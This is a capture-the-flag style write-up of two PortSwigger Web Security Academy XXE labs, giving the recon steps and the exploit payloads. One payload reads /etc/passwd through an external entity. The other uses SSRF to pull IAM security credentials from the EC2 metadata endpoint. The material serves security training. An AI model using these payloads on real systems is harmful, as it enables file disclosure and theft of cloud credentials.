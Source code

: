 # XXE - APPRENTICE
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response. 
* Goal: To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file. 

## Lab: Exploiting XXE using external entities to retrieve files
### Recon
1. Use Burp Suite to intercept package
![](https://i.imgur.com/gMn3Cbu.png)
You can notice that it use a normal xml format.

### Exp - Inject Directly
Exploit Payload:
```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/2Xbsq4L.png)

---
![](https://i.imgur.com/3npCzv9.png)
:::

---

## Lab: Exploiting XXE to perform SSRF attacks
* Description: This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
* Goal: To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

### Recon
1. Intercept Package
From the screenshot of the package, we noticed that the xml attached data could be injected.
![](https://i.imgur.com/6o3vhzm.png)

### Exp - Inject Directly
Exploit Payload:
```xml!
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/hYjBqR8.png)

---
![](https://i.imgur.com/4ZBkJpE.png)
:::